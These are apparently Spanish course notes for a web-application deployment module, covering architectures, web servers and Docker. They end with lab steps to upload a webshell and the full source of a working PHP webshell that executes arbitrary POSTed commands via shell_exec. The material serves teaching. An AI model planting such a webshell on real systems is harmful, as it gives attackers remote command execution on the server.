 # Módulo profesional 09: Despliegue de aplicaciones web (código: 0614)
## Contenidos (duración 85 horas)

- Implantación de arquitecturas web
- Administración de servidores web
- Administración de servidores de aplicaciones
- Instalación y administración de servidores de transferencia de archivos
- Servicios de red implicados en el despliegue de una aplicación web
- Documentación y sistemas de control de versiones

# Introducción a DAW

- Trabajos posibles para proyecto fin de ciclo
- ¿De qué va la asignatura?
- ¿Cómo voy a evaluar la asigantura?
- Se puede utilizar cualquier lenguaje
- Mezcla de tecnologías

# Implantación de arquitecturas web:
- Arquitecturas web. Modelos.
  - Simular arquitectura cliente-servidor
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-18.md#presentaci%C3%B3n-de-conceptos-b%C3%A1sicos-sobre-aplicaciones-web
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-23.md#ejercicios
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-25.md#crear-un-servidor-web-con-una-p%C3%A1gina-web-que-contenga-usuarios-y-acciones
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-30.md#instalaci%C3%B3n
    - https://stackoverflow.com/questions/3732109/simple-http-server-in-java-using-only-java-se-api
  - Simular protocolo inteligente
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-21.md#ejemplos-sobre-el-protocolo-http
  - Simular arquitectura de varios niveles (dos niveles y tres niveles)
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-23.md#ejercicio-que-simula-una-arquitectura-de-tres-niveles-descargar-precios-de-una-web-y-mostrarlos-en-un-servidor-web-creado-en-tiempo-real
  - Código en tiempo real
    - https://www.jesusninoc.com/07/18/mostrar-y-generar-en-tiempo-real-una-tabla-html-con-el-valor-nutricional-azucares-de-todos-los-fabricantes-de-un-producto-encontrado-en-la-tienda-online-de-un-supermercado-en-powershell/
- Servidores web. Instalación y configuración básica.
  - Conexión SSH y SCP.
- Servidores de aplicaciones. Contenedores. Instalación y configuración básica.
  - Docker.
- Estructura y recursos que componen una aplicación web. Descriptor de despliegue.
  - El descriptor del despligue indica cómo desplegar una aplicación.

--------------------
--------------------

# Implantación de arquitecturas web:
- Servidores web. Instalación y configuración básica.
  - Conexión SSH y SCP
- Servidores de aplicaciones. Contenedores. Instalación y configuración básica.
  - Docker
    - https://github.com/jesusninoc/ClasesISO/blob/master/2018-11-29.md
- Estructura y recursos que componen una aplicación web. Descriptor de despliegue.

-----------------

# Instalar Apache y PHP (comprobar que se ha instalado con un fichero phpinfo())

# Crear fichero upload

# Subir una Webshell

# Webshell
```PHP
<?php
if (!empty($_POST['cmd'])) {
    $cmd = shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html lang="en">
<!-- By Artyum (https://github.com/artyuum) -->
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Web Shell</title>
    <style>
        * {
            -webkit-box-sizing: border-box;
            box-sizing: border-box;
        }

        body {
            font-family: sans-serif;
            color: rgba(0, 0, 0, .75);
        }

        main {
            margin: auto;
            max-width: 850px;
        }

        pre,
        input,
        button {
            border-radius: 5px;
        }

        pre,
        input,
        button {
            background-color: #efefef;
        }

        label {
            display: block;
        }

        input {
            width: 100%;
            background-color: #efefef;
            border: 2px solid transparent;
        }

        input:focus {
            outline: none;
            background: transparent;
            border: 2px solid #e6e6e6;
        }

        button {
            border: none;
            cursor: pointer;
            margin-left: 5px;
        }

        button:hover {
            background-color: #e6e6e6;
        }

        pre,
        input,
        button {
            padding: 10px;
        }

        .form-group {
            display: -webkit-box;
            display: -ms-flexbox;
            display: flex;
            padding: 15px 0;
        }
    </style>

</head>

<body>
    <main>
        <h1>Web Shell</h1>
        <h2>Execute a command</h2>

        <form method="post">
            <label for="cmd"><strong>Command</strong></label>
            <div class="form-group">
                <input type="text" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8') ?>"
                       onfocus="this.setSelectionRange(this.value.length, this.value.length);" autofocus required>
                <button type="submit">Execute</button>
            </div>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST'): ?>
            <h2>Output</h2>
            <?php if (isset($cmd)): ?>
                <pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre>
            <?php else: ?>
                <pre><small>No result.</small></pre>
            <?php endif; ?>
        <?php endif; ?>
    </main>
</body>
</html>
```
